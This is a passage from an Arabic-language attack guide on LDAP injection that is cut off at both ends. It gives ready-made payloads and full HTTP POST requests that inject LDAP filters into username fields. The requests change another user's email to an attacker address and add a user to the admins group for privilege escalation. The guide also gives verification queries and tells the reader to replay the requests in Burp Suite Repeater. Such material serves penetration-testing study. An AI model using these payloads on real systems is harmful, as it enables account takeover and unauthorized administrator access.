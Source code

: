     username=user1&password=newpass123
    ```

#### ب. تعديل خاصية أخرى (مثل `mail`)
- **السيناريو**: تريد تغيير بريد `user1` إلى `hacker@domain.com` عبر واجهة `/admin/update_profile`.
- **الإدخال**:
  - Username: `user1*)(uid=user1)(mail=hacker@domain.com)`
  - Email: `anything`
- **الطلب**:
  ```
  POST /admin/update_profile HTTP/1.1
  Host: example.com
  Content-Type: application/x-www-form-urlencoded

  username=user1*)(uid=user1)(mail=hacker@domain.com)&email=anything
  ```
- **كيف يعمل**:
  - الاستعلام يحاول تعديل خاصية `mail` لـ `user1`.
  - استجابة إيجابية (مثل "Profile updated") تؤكد التغيير.
  - يمكن التحقق من التعديل باستعلام بحث:
    ```
    POST /search HTTP/1.1
    Host: example.com
    Content-Type: application/x-www-form-urlencoded

    search=*)(mail=hacker@domain.com)
    ```
- **متى يُستخدم؟**:
  - عندما يسمح التطبيق بتعديل خصائص أخرى غير كلمة المرور.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - تحقق من التعديل باستعلام بحث أو تسجيل الدخول.

#### ج. تعديل عضوية المجموعة (Group Membership)
- **السيناريو**: تريد إضافة `user1` إلى مجموعة إدارية (`cn=admins`) عبر واجهة `/admin/update_group`.
- **الإدخال**:
  - Username: `user1*)(uid=user1)(memberOf=cn=admins,dc=domain,dc=com)`
  - Group: `anything`
- **الطلب**:
  ```
  POST /admin/update_group HTTP/1.1
  Host: example.com
  Content-Type: application/x-www-form-urlencoded

  username=user1*)(uid=user1)(memberOf=cn=admins,dc=domain,dc=com)&group=anything
  ```
- **كيف يعمل**:
  - الاستعلام يحاول تعديل خاصية `memberOf` لإضافة `user1` إلى مجموعة `admins`.
  - إذا نجح، يحصل `user1` على صلاحيات إدارية.
  - تحقق من التعديل بتسجيل الدخول بـ `user1` والتحقق من الصلاحيات.
- **متى يُستخدم؟**:
  - عندما تريد رفع صلاحيات مستخدم موجود.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - تحقق من الصلاحيات:
    ```
    POST /login HTTP/1.1
    Host: example.com
    Content-Type: application/x-www-form-urlencoded
